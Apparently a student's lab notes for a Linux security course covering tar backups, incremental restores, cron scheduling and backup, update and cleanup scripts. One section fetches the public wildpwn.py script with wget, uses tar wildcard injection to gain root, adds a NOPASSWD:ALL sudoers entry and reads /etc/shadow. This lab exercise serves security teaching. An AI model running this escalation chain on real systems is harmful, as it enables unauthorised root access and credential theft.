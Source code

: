 # Week 5.1

## Creating and Restoring Backups with tar

```console
cd ~/Documents/epscript/
ls -l
cd ..
sudo tar cvvWf 20190505epscript.tar epscript/ > 20190505epscript.txt
sudo tar tvvf 20190505epscript.tar | less
cd epscript/backup/
sudo tar tvvf 20190814epscript.tar | less
sudo mkdir patient_search
sudo tar xvvf 20190814epscript.tar -C patient_search/ epscript/patients/
ll patient_search/epscript/patients/
tar xvf 20190814epscript.tar 
grep -R "Mark,Lopez" epscript/
grep -R "Megan,Patel" epscript/
```
An important note when created backups. You cannot be in the the directory you want the backup of. we we cd .. out first.

## Restoring Data Incremental Backups

```console
cd ~/Documents/epscript
tar cvvWf epscript_back_sun.tar --listed-incremental=epscript_backup.snar --level=0 testenvir
tar tvvf epscript_back_sun.tar --incremental | less
rm -r testenvir/patient/
tar xvvf epscript_back_sun.tar -R -C ~/Documents/epscript/ testenvir/patient/
touch patient.0a.txt patient.0b.txt
tar cvvWf epscript_back_mon.tar --listed-incremental=epscript_backup.snar testenvir
tar tvvf epscript_back_mon.tar --incremental | less
```

## Exploiting the tar Command with the Checkpoint and Wildcard Options

```console
cd
sudo su jane
cd ~/Documents
cd ExploitTar
wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py
python wildpwn.py tar .
ls -lat
cd .cache/
ls -lat
./.cachefile
visudo
```
From the exploit we now have root priviledges. As Jane we are able to enter visudo without any priviledge escalations. Within visudo we give ourselves all permissions with jane ALL=(ALL) NOPASSWD:ALL
```console
su jane
sudo cat etc/shadow
sudo rm -rf ~/Documents/ExploitTar
sudo apt install lynis
sudo lynis audit system
sudo nano /var/log/lynis-report.dat
```

# Week 5.2

## Simple Cronjobs
```console
systemctl status cron
sudo mkdir -p /usr/share/{doctors,patients,treatments}
sudo chown root:sysadmin /usr/share/doctors 
sudo chown root:sysadmin /usr/share/patients 
sudo chown root:sysadmin /usr/share/treatments
crontab -e
```
Within the crontab we will add the following lines of code. These lines will move the target docs into their respective folders at 6pm daily.
```console
0 18 * * * mv ~/Downloads/doctors*.docx /usr/share/doctors
0 18 * * * mv ~/Downloads/patients*.txt /usr/share/patients
0 18 * * * mv ~/Downloads/treatments*.pdf /usr/share/treatments
```
Then we will find the cron tab to verify it has been created.
```console
sudo ls -l /var/spool/cron/crontabs | grep sysadmin
```
**Bonus:**
We want a medical archive backup every friday at 11pm, then to verify the backup at 11:05pm, and to create a list of our downloads folder at 4am daily.
```console
0 23 * * 5 tar czvf ~/Documents/MedicalArchive/Medical_backup.tar.gz
5 23 * * 5 gzip -t Medical_backup.tar.gz >> /usr/share/backup_validation.txt
0 4 * * * ls -l ~/Downloads > ~/Documents/Medical_files_list.txt
sudo ls -l /var/spool/cron/crontabs | grep sysadmin
```
## Introduction to Scripts
In this lab we want to create scripts to backup our files, cleanup our caches, and to ensure our packages are all up to date.
```console
mkdir -p ~/Security_scripts
cd ~/Security_scripts
chmod +x backup.sh
chmod +x update.sh
sudo ./backup.sh
sudo ./update.sh
```
**backup.sh**
```console
#!/bin/bash
# Create /var/backup if it doesn't exist
mkdir -p /var/backup
# Create new /var/backup/home.tar
tar cvf /var/backup/home.tar /home
# Moves the file `/var/backup/home.tar` to `/var/backup/home.MMDDYYYY.tar`.
mv /var/backup/home.tar /var/backup/home.01012020.tar
# Creates an archive of `/home`and saves it to `/var/backup/home.tar`.
tar cvf /var/backup/system.tar /home 	
# List all files in `/var/backup`, including file sizes, and save the output to `/var/backup/file_report.txt`.
ls -lh /var/backup > /var/backup/file_report.txt
# Print how much free memory your machine has left. Save this to a file called `/var/backup/disk_report.txt`.
free -h > /var/backup/disk_report.txt
```
**update.sh**
```console
#!/bin/bash
# Ensure apt has all available updates
apt update -y
# Upgrade all installed packages
apt upgrade -y
# Install new packages, and uninstall any old packages that
# must be removed to install them
apt full-upgrade -y
# Remove unused packages and their associated configuration files
apt autoremove --purge -y
# Bonus - Perform with a single line of code.
apt update -y && apt upgrade -y && apt full-upgrade -y && apt-get autoremove --purge -y
```
**cleaup.sh**
```console
#!/bin/bash
# Clean up temp directories
rm -rf /tmp/*
rm -rf /var/tmp/*	
# Clear apt cache
apt clean -y
# Clear thumbnail cache for sysadmin, instructor, and student
rm -rf /home/sysadmin/.cache/thumbnails
rm -rf /home/instructor/.cache/thumbnails
rm -rf /home/student/.cache/thumbnails
rm -rf /root/.cache/thumbnails
```

## Scheduling Backups, Cleanups, and Security Checks



## Reviewing
